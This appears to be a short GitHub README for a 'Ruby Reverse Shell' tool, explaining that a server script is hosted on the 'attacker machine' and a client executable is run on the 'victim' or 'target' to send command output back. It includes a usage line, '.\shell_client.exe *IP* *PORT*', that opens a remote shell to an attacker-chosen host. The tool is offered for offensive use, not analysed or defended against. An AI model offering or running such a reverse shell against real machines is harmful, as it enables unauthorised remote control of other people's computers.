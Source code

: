 # Ruby Reverse Shell

Requirements:

**[x] = Server that receives the reverse shell must have ruby installed, they victim doesn't**

These are scripts/exes that can be used as a better reverse shell. It's basically a reverse shell that sends the output of the executions back to you which wouldn't be possible with netcat.




Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```
